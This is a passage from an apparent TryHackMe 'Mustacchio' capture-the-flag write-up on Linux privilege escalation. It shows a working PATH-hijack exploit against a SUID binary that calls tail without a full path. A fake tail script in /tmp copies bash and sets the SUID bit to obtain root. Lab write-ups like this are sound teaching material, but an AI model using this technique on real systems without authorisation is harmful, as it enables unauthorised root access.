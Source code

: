 ```bash
/bin/ping                         
/bin/ping6                         
/bin/umount
/bin/mount
/bin/fusermount
/bin/su

barry@mustacchio:~$ ls -latr /home/joe/live_log                                                                             
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
```

Found an interesting SUID file that barry can execute, located at `/home/joe/live_log`

By extracting strings from the file, we discovered that it runs the tail command on `/var/log/nginx/access.log`

![strings](../assets/img/posts/2024-11-02-post-thm-writeup-mustacchio/image-10.png)

The problem relies in that tail might be exploited because it is run without an absolute path, making it exploitable. To take advantage of this, we can create a malicious tail script in the /tmp directory that is crafted to create a copy of bash in /tmp/bash and set the SUID bit on it, /tmp can be added to the beginning of the $PATH, and then run the SUID file to escalate privileges.
After this script is executed with elevated privileges, we can use the modified bash shell to spawn a root shell.

```bash
barry@mustacchio:~$ cd /tmp
barry@mustacchio:/tmp$ vim tail 
barry@mustacchio:/tmp$ cat tail 
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
barry@mustacchio:/tmp$ chmod +x /tmp/tail 
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ /home/joe/live_log 
Live Nginx Log Readerbarry
```

